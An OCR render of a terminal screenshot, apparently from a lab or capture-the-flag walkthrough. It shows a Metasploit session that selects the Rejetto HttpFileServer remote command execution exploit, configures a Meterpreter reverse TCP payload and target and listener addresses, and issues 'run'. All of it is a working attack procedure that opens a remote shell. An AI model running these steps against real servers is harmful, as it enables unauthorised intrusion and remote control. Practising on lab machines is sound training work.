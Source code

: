 Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > show options 

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.27.137   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8080
rport => 8080
msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 10.10.205.47
rhosts => 10.10.205.47
msf6 exploit(windows/http/rejetto_hfs_exec) > set lhost 10.11.61.123
lhost => 10.11.61.123
msf6 exploit(windows/http/rejetto_hfs_exec) > run
